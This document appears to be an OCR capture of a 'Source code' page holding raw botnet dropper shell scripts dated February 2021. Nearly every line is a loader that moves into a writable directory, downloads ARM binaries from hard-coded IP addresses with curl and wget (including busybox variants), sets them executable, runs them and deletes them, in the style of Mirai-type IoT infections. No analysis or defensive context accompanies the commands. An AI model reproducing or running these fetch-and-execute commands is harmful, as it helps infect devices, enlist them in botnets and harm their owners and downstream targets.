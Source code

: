 ```
curl http://45.145.185.83/S1eJ3/lPxdChtp3zarm5 -O; busybox curl http://45.145.185.83/S1eJ3/lPxdChtp3zarm5 -O; wget http://45.145.185.83/S1eJ3/lPxdChtp3zarm5 -O AJhkewbfwefWEFarm5; busybox wget http://45.145.185.83/S1eJ3/lPxdChtp3zarm5 -O AJhkewbfwefWEFarm5; chmod 777 AJhkewbfwefWEFarm5; ./AJhkewbfwefWEFarm5; rm -rf AJhkewbfwefWEFarm5

2021-2-24

#!/bin/sh

cd /tmp || cd /home/$USER || cd /var/run || cd /mnt || cd /root || cd / ;

#cd $(find / -writable -readable -executable | head -n 1)

curl http://45.145.185.83/bins/AJhkewbfwefWEFarm -O; busybox curl http://45.145.185.83/bins/AJhkewbfwefWEFarm -O; wget http://45.145.185.83/bins/AJhkewbfwefWEFarm -O AJhkewbfwefWEFarm; busybox wget http://45.145.185.83/bins/AJhkewbfwefWEFarm -O AJhkewbfwefWEFarm; chmod 777 AJhkewbfwefWEFarm; ./AJhkewbfwefWEFarm; rm -rf AJhkewbfwefWEFarm

curl http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O; busybox curl http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O; wget http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O AJhkewbfwefWEFarm5; busybox wget http://45.145.185.83/bins/AJhkewbfwefWEFarm5 -O AJhkewbfwefWEFarm5; chmod 777 AJhkewbfwefWEFarm5; ./AJhkewbfwefWEFarm5; rm -rf AJhkewbfwefWEFarm5

#curl http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O; busybox curl http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O; wget http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O AJhkewbfwefWEFarm7; busybox wget http://45.145.185.83/bins/AJhkewbfwefWEFarm7 -O AJhkewbfwefWEFarm7; chmod 777 AJhkewbfwefWEFarm7; ./AJhkewbfwefWEFarm7; rm -rf AJhkewbfwefWEFarm7

2021-2-28

#!/bin/sh

#cd /tmp || cd /home/$USER

#curl http://45.144.225.96/S1eJ3/IObeENwjarmv7l -O; busybox curl http://45.144.225.96/S1eJ3/IObeENwjarmv7l -O; wget http://45.144.225.96/S1eJ3/IObeENwjarmv7l -O IObeENwjarmv7l; busybox wget http://45.144.225.96/S1eJ3/IObeENwjarmv7l -O IObeENwjarmv7l; chmod 777 IObeENwjarmv7l; ./IObeENwjarmv7l; rm -rf IObeENwjarmv7l

#curl http://45.144.225.96/S1eJ3/IObeENwjarm7 -O; busybox curl http://45.144.225.96/S1eJ3/IObeENwjarm7 -O; wget http://45.144.225.96/S1eJ3/IObeENwjarm7 -O IObeENwjarm7; busybox wget http://45.144.225.96/S1eJ3/IObeENwjarm7 -O IObeENwjarm7; chmod 777 IObeENwjarm7; ./IObeENwjarm7; rm -rf IObeENwjarm7

#curl http://45.144.225.96/S1eJ3/IObeENwjarm5 -O; busybox curl http://45.144.225.96/S1eJ3/IObeENwjarm5 -O; wget http://45.144.225.96/S1eJ3/IObeENwjarm5 -O IObeENwjarm5; busybox wget http://45.144.225.96/S1eJ3/IObeENwjarm5 -O IObeENwjarm5; chmod 777 IObeENwjarm5; ./IObeENwjarm5; rm -rf IObeENwjarm5

curl http://45.144.225.96/S1eJ3/IObeENwjarm -O; busybox curl http://45.144.225.96/S1eJ3/IObeENwjarm -O; wget http://45.144.225.96/S1eJ3/IObeENwjarm -O IObeENwjarm; busybox wget http://45.144.225.96/S1eJ3/IObeENwjarm -O IObeENwjarm; chmod 777 IObeENwjarm; ./IObeENwjarm; rm -rf IObeENwjarm
```
